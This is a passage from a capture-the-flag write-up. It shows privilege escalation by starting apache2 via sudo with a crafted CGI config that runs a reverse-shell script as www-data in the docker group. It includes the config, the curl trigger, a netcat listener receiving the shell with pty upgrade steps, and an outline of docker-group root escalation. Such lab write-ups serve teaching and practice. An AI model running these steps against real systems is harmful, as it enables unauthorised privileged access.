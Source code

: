```
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so
LoadModule authz_core_module /usr/lib/apache2/modules/mod_authz_core.so
LoadModule mime_module /usr/lib/apache2/modules/mod_mime.so
LoadModule cgi_module /usr/lib/apache2/modules/mod_cgi.so
LoadModule alias_module /usr/lib/apache2/modules/mod_alias.so

User www-data
Group docker

ServerName localhost
Listen 8080

TypesConfig /etc/mime.types

ScriptAlias /rev /tmp/rev.sh

ErrorLog "/tmp/error.log"
```
{: file="/tmp/cgi.conf"}


Now, we can start the `apache2` server with this configuration and make a request to the `/rev` endpoint to run our script:

```console
dolivaw@ubuntu-jammy:~$ sudo /usr/sbin/apache2 -f /tmp/cgi.conf -k start
dolivaw@ubuntu-jammy:~$ curl http://127.0.0.1:8080/rev
```

Making the request and checking our listener, we can see that we were able to get a shell as the `www-data` user and the `docker` group.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.64.79] from (UNKNOWN) [10.10.100.70] 35254
bash: cannot set terminal process group (1793): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu-jammy:/tmp$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ubuntu-jammy:/tmp$ export TERM=xterm
www-data@ubuntu-jammy:/tmp$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

www-data@ubuntu-jammy:/tmp$ id
uid=33(www-data) gid=999(docker) groups=999(docker)
```

As a member of the `docker` group, we can interact with the Docker daemon and use it to simply start a container from one of the images present on the host, mount the host's file system, and spawn a shell inside this container.
